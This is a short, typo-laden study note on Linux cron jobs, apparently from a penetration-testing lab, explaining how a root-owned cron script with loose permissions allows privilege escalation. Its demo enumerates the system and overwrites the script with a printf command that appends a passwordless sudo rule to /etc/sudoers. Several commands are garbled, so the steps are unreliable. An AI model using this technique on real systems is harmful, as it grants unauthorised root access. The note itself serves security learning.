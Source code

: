 # Cron Jobs

### what is cron jobs
```Linux immplement task scheduling through utility called
  CRON
  CRON <- Time based service script that repeatedly run on a specific
  schedule
  script run repeatedly are called Cron JOBS
  use to repeate variety of function
EG: - Use for taking backups regularly
```
- Cron Tabs : Config file to track cron jobs that have been created also show active jobs\
  Cron jobs can run as **root-user**  will provide root access and thats why it is our target

- Look for:
  shell script that hafce improper permission
  {any user can edit}\
  then input cmd that would run the shell script\
  & once that CROn job in run\
  script will execute with root privs....



## DEMO

>whoami
>groups **<user>**
>cat /etc/password
>Crontab -l
- no crontab for normal userss only show cron jobs when u have admin privss
>ls -al
- look for the file that is owned by root users and copy the path
>grep -rnw /usr -e "/home/student/message"
- r = recursive
- n = new
- w = exact match
>copy.sh
>ls -al /temp
>cat /tmp/msg
>ls -al /usr/share/copy.sh
>cat copy.sh
- if no txt editor
- use shell
>printf '#! /bin/bash\hecho"student -ALL=NO PASSWD:ALL">>/etc/sudoers' > /usr/local/share/copy.sh
>cat copy.sh
- to view the part of sudo group
>sudo -l
>sudo u
>crontab -l

   

